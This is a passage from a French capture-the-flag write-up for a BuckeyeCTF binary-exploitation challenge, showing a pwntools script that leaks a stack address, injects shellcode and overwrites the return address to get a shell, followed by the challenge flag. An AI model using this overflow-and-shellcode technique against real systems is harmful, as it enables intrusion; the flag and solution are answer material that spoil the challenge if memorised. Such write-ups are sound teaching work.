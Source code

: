 L'offset a pour valeur 0x41 (car nous avons inséré un espace avant les "a"). Ainsi, l'adresse de notre shellcode sera : leak_value - 0x41

### Implémentation de la solution
La solution a été implémentée en utilisant la célèbre bibliothèque Python pwntools.

```python
from pwn import *

r = remote('pwn.chall.pwnoh.io', 13372)
shellcode = asm(shellcraft.amd64.sh(), arch='amd64')


print(r.recvuntil(b'do? '))
r.sendline(b"Chase after it." + shellcode)
print(r.recvuntil(b'look? '))
# leak stack address
r.sendline(b'-4')
# retry to read locs and continue programm execution
r.sendline(b"2")
leak = r.recvuntil(b'You', drop=True)
leak = u64(leak[-6:].ljust(8, b'\x00'))
print(r.recvuntil(b'"Tell me a joke."'))
# Send 40 bytes to overwrite RBP + shellcode address to overwrite RIP
r.sendline(b"B"*40 + p64(leak - 0x41))
r.interactive()
```
Il ne vous reste plus qu'à lire le flag :)

Flag: **buckeye{n3v3r_7ru57_4_741k1n9_m0nk3y}**
